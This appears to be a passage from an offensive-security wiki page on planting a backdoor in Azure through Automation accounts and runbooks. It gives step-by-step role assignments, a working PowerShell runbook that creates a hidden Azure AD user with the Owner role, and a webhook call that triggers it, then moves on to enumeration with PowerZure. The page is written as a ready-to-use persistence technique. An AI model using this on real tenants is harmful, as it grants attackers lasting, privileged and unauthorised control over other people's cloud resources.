 # Runbooks / Automation accounts

## Runbooks / Automation accounts

Used for automating tasks like script

Can be also used to create a backdoored user :\)

* Powershell and python2.7 are supported

#### Create an Automation Account

![](../../../../../.gitbook/assets/f84549f6b2164561bc0db781076b6bfb.png)

![](../../../../../.gitbook/assets/100b71ac565941f89309d8c4912c3e1d.png)

* From AD azure, go to "Roles and Administrators" and select "User Administrator" \(click on description\)

![](../../../../../.gitbook/assets/17df776ebf134e9f89e218e38a5b4b1a.png)



* From the IAM menu, add the Automation account as owner

![](../../../../../.gitbook/assets/93b0a6aa2d3c4f30a9b9bc2bdfa4e6f1.png)

* In "User Administrator", use "Assignement" menu and add a new one \(search for your Automated account\)

![](../../../../../.gitbook/assets/ee7f92b17b3f4095805f075d58f80684.png)

![](../../../../../.gitbook/assets/2bc4a2121d9d46a7b64c2dba55b8c7c6.png)

* Back To Automation menu, select your fake account. Then select "Modules gallery" menu and add "**Az.Accounts**" and "**Az.Resources**"

![](../../../../../.gitbook/assets/10e07084a7b445cc8ec0f0dfd9847a6e.png)

![](../../../../../.gitbook/assets/462f52ab524742e390e9a02d0aae064c.png)

![](../../../../../.gitbook/assets/1c74b0905135473bb69d00982412b9b4.png)

* Back to Automation menu, select your account and import a RunBook

![](../../../../../.gitbook/assets/8fbcbd5b8bc54e4c963857af660d9688.png)

* Create a powershell script and import it 

```bash
Import-Module Az.Accounts
Import-Module Az.Resources

$user = "YOUR_ACCOUNT"
$pass = "YOUR_PASSWORD"

$Nickname = "FakeSVC"
$DisplayName = "fake_service"

$connectionName = "AzureRunAsConnection"

$servicePrincipalConnection = Get-AzAutomationConnection -Name $connectionName

Connect-AzAccount -ServicePrincipal -TenantId $servicePrincipalConnection.TenantId -ApplicationId $servicePrincipalConnection.ApplicationId -CertificateThumbprint $servicePrincipalConnection.CertificateThumprint

$SecureStringPassword = ConvertTo-SecureString -String $pass -AsPlainText -Force

New-AzADUser -DisplayName $DisplayName -UserPrincipalName $user -Password $SecureStringPassword -MailNickname $Nickname
New-AzRoleAssignment -SignInName $user -RoleDefinitionName Owner
```

![](../../../../../.gitbook/assets/0eb4ca03015049058248667651cb7f10.png)

* Publish it

![](../../../../../.gitbook/assets/3fc50401ae794139b2ac635f847e0580.png)

* Add a WebHook and copy the URL

![](../../../../../.gitbook/assets/b7144134eb6546269c91b39748628ea5.png)

![](../../../../../.gitbook/assets/4884d17f77a34b65bf79c5dd5ec3d438.png)

* Create/Confirm

![](../../../../../.gitbook/assets/deab579e22d3429084fb24c5f06c03ed.png)

* Active the backdoor

```csharp
Invoke-WebRequest -Method Post -Uri "https://2REDACTED5.webhook.we.azure-automation.net/webhooks?token=%2bREDACTED%3d" -Verbose
```

![](../../../../../.gitbook/assets/1061253c897e49edbf39480995b1ab0f.png)

* Connect using the backdoored account using the command

```csharp
Connect-AzAccount
```

![](../../../../../.gitbook/assets/91854dba7c334bd8bb10b082d9de0fda.png)

* Import PowerZure and start enumeration

![](../../../../../.gitbook/assets/fcb9dc94eb5e4db49b522518ba291d94.png)

### Resource

{% embed url="https://github.com/hausec/PowerZure" %}

